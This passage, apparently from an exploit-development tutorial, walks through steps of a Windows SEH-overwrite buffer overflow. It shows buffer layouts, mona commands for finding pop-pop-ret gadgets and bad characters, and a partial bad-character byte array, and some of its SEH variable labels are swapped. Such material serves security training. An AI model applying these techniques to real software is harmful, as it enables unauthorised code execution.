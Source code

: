 Example:
```bash
offset = "A" * yyy
# jmp short 8 bytes
seh = "BBBB"
# pop pop ret address
nextseh = "CCCC"
# shellcode space
esp = "D" * 400
buffer = offset + seh + nextseh + esp
```
### 6 - Unstacking 8 bytes with (POP POP RET)

```bash
!mona seh -n
```
* choose a address of the best DLL with less security
Example:
kmdtpcm.dll address
*0x1220401E*

### 7 - JUMP SEH STRUCTURE (8bytes)

it is necessary unstacking 8 bytes because SEH has 8 bytes
```bash
msf-nasm_shell
nasm> jmp short 08
```
result:
\xeb\x06

### 8 - New Stack Fitting

```bash
# offset before SEH
offset = "A" * yyy
# jmp short 8 bytes
seh = "\x90\x90\xeb\x06"
# pop pop ret to return to SEH
nextseh = pack('<L',0x1220401E)
esp = "D" * 400
buffer = offset + seh + nextseh + esp
```

### 9 - Looking For BADCHARS

inside immunity debugger
```bash
!mona bytearray
!mona bytearray -cpb "\x00\x0a\x0d"
```
put the bytearray in your POC

```python
bytearray = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22"
"\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42"
"\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
"\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2"
"\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
```